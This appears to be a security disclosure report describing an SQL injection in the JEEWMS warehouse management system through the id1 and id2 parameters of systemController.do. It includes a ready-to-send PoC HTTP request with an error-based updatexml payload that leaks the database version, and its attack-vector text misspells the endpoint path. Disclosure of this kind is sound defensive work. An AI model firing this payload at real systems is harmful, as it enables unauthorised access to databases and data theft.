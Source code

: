 ### 💥 Vulnerability Report : SQL Injection in 

------

**1. Product:**

- **Name:** JEEWMS Warehouse Management System
- **Version:** latest version
- **Repository:** https://gitee.com/erzhongxmu/JEEWMS

------

**2. Vulnerability Type:**

- **Type:** SQL Injection (SQLi)

------

**3. Affected Component(s):**

- `POST /jeewms/systemController.do`

------

**4. Attack Vector(s):**

Attackers can inject malicious SQL statements through the id1 and id2 parameters in the/jiewms/systemControl.do interface for attack. The backend uses this parameter in dynamic HQL construction, but does not perform input filtering and parameter precompilation, resulting in SQL injection.

------

**5. Proof of Concept (PoC):**

```
POST http://xxx/jeewms/systemController.do HTTP/1.1
Host: xxx
Cookie: JSESSIONID=093BDB6C9E298905D25C65DE49C2A5C4; JEECGINDEXSTYLE=ace; ZINDEXNUMBER=1990
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

diffDataVersion=1&id1=1&id2=1' and updatexml(1,concat('~',version(),'~'),1)='1
```

If vulnerable, the response will contain an error message such as:

![image-20251029104908916](./assets/image-20251029104908916.png)

This confirms that the SQL injection is successful and discloses database user information.



**6. Vulnerable Code Reference**

	src/main/java/org/jeecgframework/web/system/controller/core/SystemController.java

![image-20251029105421542](./assets/image-20251029105421542.png)

	src/main/java/org/jeecgframework/core/common/service/impl/CommonServiceImpl.java

![image-20251029105510653](./assets/image-20251029105510653.png)

```
src/main/java/org/jeecgframework/core/common/dao/impl/GenericBaseCommonDao.java
```

![image-20251029105629565](./assets/image-20251029105629565.png)

	The above code receives the id1 or id2 parameters input by the client and directly concatenates them into the HQL statement without any filtering or precompilation processing. Therefore, attackers can inject arbitrary HQL code through id1 or id2 parameters, leading to SQL injection vulnerabilities.



------

**7. Impact:**

- Data leakage (e.g., database users, names)
- Potential unauthorized access
- Escalation to full compromise depending on DBMS

------

**8. References:**

- https://gitee.com/erzhongxmu/JEEWMS
- 